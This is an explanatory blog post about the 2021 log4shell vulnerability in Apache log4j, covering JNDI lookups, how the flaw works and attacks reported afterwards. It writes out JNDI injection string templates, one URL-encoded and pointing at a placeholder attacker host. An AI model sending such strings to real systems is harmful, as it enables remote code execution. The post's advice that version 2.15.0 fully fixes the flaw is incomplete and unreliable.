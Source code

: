 ```yaml
---
title: "Understanding the log4j global security incident"
date: 2021-12-30T21:24:23+11:00
draft: false
image: img/Post6.jpg
tags: ['Learning', 'Vulnerability']
---
```


## What is the log4j incident?

Apache log4j is an open-source logging framework used with the programming languages. It is a popular framework widely used across various industries, from video games such as Minecraft to hospital equipment and other programs.

Researchers from Alibaba Cloud Security Team discovered a vulnerability in the framework and reported it to Apache on the 24th of November 2021. The vulnerability was then released through a Twitter post to the world on the 9th of December 2021.

This vulnerability with log4j, tracked within the National Vulnerability Database as [**CVE-2021-44228**](https://nvd.nist.gov/vuln/detail/CVE-2021-44228), or more colloquially known as **log4shell**, comes with an ability to remotely execute code, making it very dangerous when used by cyber attackers.

Attackers can exploit the log4j vulnerability to perform a variety of cyber-attacks, such as force the server that is running log4j to install any software the attacker wants, including software that can completely take over the server. within a few days of the exploit being released, cybersecurity company [Akamai Technologies Inc.](https://www.akamai.com/blog/security/threat-intelligence-on-log4j-cve-key-findings-and-their-implications) tracked over **10 million attempts to exploit log4j each hour**.

## Background Information

In Java programming, **logging** is a term to describe keeping records of all data input and output, and any changes made in an application. Logging is simply keeping a record of all the events in an application and is mainly used for debugging and tracking the history of changes.

A logging framework is usually a third-party application used to help ease and standardise the process of logging information across an application. Apache log4j is a popular and widely-used example of these third-party applications.

The log4j framework can look up information, such as Event lookups, Date lookups or JNDI (Java Naming and Directory Interface) lookups, to name a few examples. It uses the JDNI API to correlate these lookups against different record providers, such as DNS (Domain Name Service), RMI (Remote Method Invocation) or the others seen in the image below. An overview of JDNI can be found [here](https://docs.oracle.com/javase/jndi/tutorial/getStarted/overview/index.html).

{{< figure src="https://docs.oracle.com/javase/jndi/tutorial/figures/jndi/getStarted/jndiarch.jpg" title="JDNI API. Figure Source: Oracle Documentation" height="500" width="500" >}}

The log4shell vulnerability takes advantage of log4j not performing input validation and not sanitising any URL's passed through input messages. Log4j does not verify the JNDI and LDAP (Lightweight Directory Access Protocol) requests. Therefore, attackers can execute malicious Java code on any server, as log4j blindly trusts all user input.

## How log4j works

Log4j has a feature named **message lookup substitution**. This feature allows log4j to automatically detect strings (meaning text written by users) that point to JDNI resources. Before the latest update, this feature was enabled automatically and was partially responsible for the remote code execution vulnerability that came to be known as log4shell.

The **message lookup substitution** feature in log4j had no in-built rules governing acceptable user input, and as a result would not sanitise and remove any unnecessary input, including URL's. This automatically enabled feature combined with the lack of filtering of input allowed attackers to send malicious requests to applications using log4j with little effort.

{{< figure src="https://news.sophos.com/wp-content/uploads/2021/12/log4j_how-1.png" title="Log4j Explanied. Figure Source: SophosLabs" height="700" width="700">}}

With HTTP communications specifically, the malicious string could be sent through any part of the HTTP request that would be logged by the receiving application. As seen in the diagram above, the **User-Agent** field in the "Normal Log4j Scenario" would contain details of the user's browser. An attacker is able to modify this information and instead send a string that would invoke the JNDI interface.

This malicious string can be crafted in many ways, but was commonly in the form of:

```text
${jndi:[service]://[lookup address]}
```

In this example, JNDI can call upon services such as LDAP, LDAPS, DNS or Java's RMI to assist in the lookup.

The lookup address is the URL that would be queried and fetched as Java code.

Another technique would include URL-encoded payloads, this would look like:

```text
$%7Bjndi:ldap:/x.x.x.x:3339/[malicious exploit]%7D
```

This technique is more straightforward for an attacker to execute, and involves replacing characters with UTF-8 encoded characters. The '**{**' bracket is written instead as '**%7B**', for example.

When the receiving server logged this malicious request, the log4j vulnerability would be triggered and the commands crafted by the attacker would be executed.

## What known cyberattacks resulted from log4j?

Since the log4shell vulnerability is relatively simple to exploit, millions of cyber attacks have resulted from it within a few days of it being released.

Microsoft has reported cyber attacks involving attackers installing crypto mining software such as XMRig cryptocurrency miner on servers. Similarly, attackers have also tried to install botnet malware on servers, such as Muhstik botnet, as well as malicious java code that can create and active a backdoor in a server for attackers to later exploit.

Khonsari and Conti randomware threats have also been reported, alongside many other malwares. More information about publicly reported payloads can be found at [Symantec](https://symantec-enterprise-blogs.security.com/blogs/threat-intelligence/log4j-vulnerabilities-attacks).

The best fix to this vulnerability is to update all servers using Apache Log4j to version 2.15.0 or later, and to continue checking to more future updates as good practice.

Tags:
